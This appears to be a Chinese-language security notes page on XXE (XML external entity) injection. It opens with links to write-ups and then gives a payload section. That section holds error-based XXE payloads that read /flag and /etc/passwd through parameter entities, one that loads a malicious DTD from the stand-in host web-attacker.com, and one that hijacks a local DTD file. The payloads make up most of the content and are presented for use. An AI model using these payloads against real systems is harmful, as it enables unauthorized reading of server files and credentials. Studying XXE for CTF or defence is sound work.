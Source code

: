 # 文章
[报错XXE](https://j7ur8.github.io/WebBook/VUL/%E6%8A%A5%E9%94%99XXE.html)<br />[从几道CTF题学习Blind XXE - 先知社区](https://xz.aliyun.com/t/8041#toc-12)<br />[Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)<br />[https://articles.zsxq.com/id_85l86vkeu8zf.html](https://articles.zsxq.com/id_85l86vkeu8zf.html)<br />[https://wx.zsxq.com/dweb2/index/topic_detail/544481482488524](https://wx.zsxq.com/dweb2/index/topic_detail/544481482488524)
# Payload
### Error Based XXE(自定义实体)
```xml
<?xml version='1.0' encoding="utf-8"?>
<!DOCTYPE message [ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '
		<!ENTITY &#x25; file SYSTEM "file:///flag">
  	<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///Ki1ro/&#x25;file;&#x27;>">
		&#x25;eval;
		&#x25;error;
	'>
	%NUMBER;
]> 
```
### Error Based XXE(外部实体)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
### Error Based (系统实体)
```xml
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
    <!ENTITY % custom_entity '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
```
